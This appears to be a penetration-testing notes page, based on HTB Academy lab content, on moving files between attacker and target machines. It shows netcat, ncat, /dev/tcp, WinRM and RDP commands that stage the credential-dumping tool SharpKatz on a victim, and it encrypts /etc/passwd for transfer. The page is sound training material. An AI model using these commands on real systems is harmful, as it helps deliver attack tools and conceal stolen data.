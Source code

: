 # Additional Methods

## Normal File Transfer

### Netcat & Ncat

At the **Target** we run netcat or ncat and listen to port 8000.

```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
victim@target:~$ # OR
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

> `--recv-only` is used in ncat to close the connection once the file transfer is finished.

On the **Attack** machine, run the following for (**nc/netcat**)

```shell-session
kali@kali:~$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

On the **Attack** machine, run the following for (**ncat**)

```shell-session
kali@kali:~$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Incase of a firewall blocking inbound connections

We can change to listen on the **Attack** machine instead.

```shell-session
kali@kali:~$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
kali@kali:~$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

And on the **Target** machine we can run the following for (nc/netcat)

```shell-session
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

And on the **Target** machine we can run the following for (ncat)

```shell-session
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If both nc and ncat doens't exists on the **target** system, we could use /dev/TCP/ eg.

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Remoting (WinRM)

**From DC01**

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**To copy DC01 > DB01**

<pre class="language-powershell"><code class="lang-powershell">PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
<strong>PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
</strong></code></pre>

**To copy DB01 > DC01**

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

**Mounting a Linux Folder Using xfreerdp**

```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

After mounting the directory we can access it by connecting to `\\tsclient\`&#x20;

![Mounted drive appeared on the file explorer](https://academy.hackthebox.com/storage/modules/24/tsclient.jpg)

> For windows we can use mstsc.exe remote desktop client.
>
> <img src="https://academy.hackthebox.com/storage/modules/24/rdp.png" alt="image" data-size="original">

## Protected File Transfer

### Windows

The easiest method is to use the script [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions/Invoke-AESEncryption.ps1).

```powershell-session
PS C:\htb> Import-Module .\Invoke-AESEncryption.ps1
PS C:\htb> Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```

&#x20;The `Invoke-AESEncryption.ps1` will create a copy of a file (encrpyted) with a `.aes` extension.

### **Linux**

To **encrypt**, run the following

```shell-session
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```

To **decrypt**, run the following

```shell-session
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```

{% hint style="info" %}
`-pbkdf2` = Password-Based Key Derivation Function 2 algorithm
{% endhint %}

## Living off the Land

The following resources are useful for the Living off the Land, the term is used for utilizing the tools and binaries on the target machine to perform functions such as download, upload, command execution, read file, write file, and bypasses.

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

## Resources

Most of the commands and contents are from **HTB academy lab!**
